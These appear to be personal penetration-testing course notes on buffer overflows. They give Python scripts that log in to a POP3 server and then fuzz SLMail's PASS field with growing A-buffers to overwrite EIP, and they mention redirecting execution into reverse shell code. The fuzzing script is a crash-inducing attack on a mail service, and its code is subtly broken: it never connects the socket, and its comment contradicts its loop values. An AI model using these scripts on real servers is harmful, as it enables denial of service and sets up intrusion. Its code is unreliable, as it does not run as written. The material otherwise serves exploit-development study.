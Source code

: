 # Buffer Overflows

There are three main ways of identifying flaws in applications.
  - If the source code of the application is available, then source code review is probably the easiest way to identify bugs.
  - If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## Fuzzing

  - Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
  - An unexpected crash indicates that the application might not filter certain input correctly. This could lead to discovering an exploitable vulnerability.

#### A Word About DEP and ASLR

  - __DEP__ (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on memory, to help prevent malicious code from running on a system.
  - The primary benefit of __DEP__ is to help prevent code execution from data pages, by raising an exception, when execution occurs.
  - __ASLR__ (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every time the Operating System is booted.
#### Interacting with the POP3 Protocol

  > if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

  - To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look similar to the following

    ```python
    #!/usr/bin/python
    import socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
      print "\nSending vil buffer..."
      s.connect(('10.0.0.22',110))     #connect to IP, POP3 port
      data = s.recv(1024)     # receive banner
      print data     # print banner

      s.send('USER   test' +'\r\n')     # end username "test"
      data = s.recv(1024)     # receive reply
      print data     # print reply

      s.send('PASS test\r\n')     # send password "test"
      data = s.recv(1024)     # receive reply
      print data     # print reply

      s.close()     # close socket
      print "\nDone!"

    except:
      print "Could not connect to POP3!”
    ```

  - Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting script would look like the following.

    ```python
    #!/usr/bin/python
    import socket

    # Create an array of buffers, from 10 to 2000, with increments of 20.
    buffer=["A"]
    counter=100

    while len(buffer) <= 30:
      buffer.append("A"*counter)
      counter=counter+200

    for string in buffer:
      print "Fuzzing PASS with %s bytes" %len(string)
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.recv(1024)
      s.send('USER test\r\n')
      s.recv(1024)
      s.send('PASS ' + string + '\r\n')
      s.send('QUIT\r\n')
      s.close()
    ```
    - Run this script against your SLMail instance, while attached to __Immunity Debugger__.
    - The results of running this script shows that the __Extended Instruction Pointer (EIP)__ register has been overwritten with our input buffer of A’s (the hex equivalent of the letter A is \x41).
    - This is of particular interest to us, as the EIP register also controls the execution flow of the application.
    - This means that if we craft our exploit buffer carefully, we might be able to divert the execution of the program to a place of our choosing, such as a into the memory where we can introduce some reverse shell code, as part of our buffer.
![](/images/33.png)
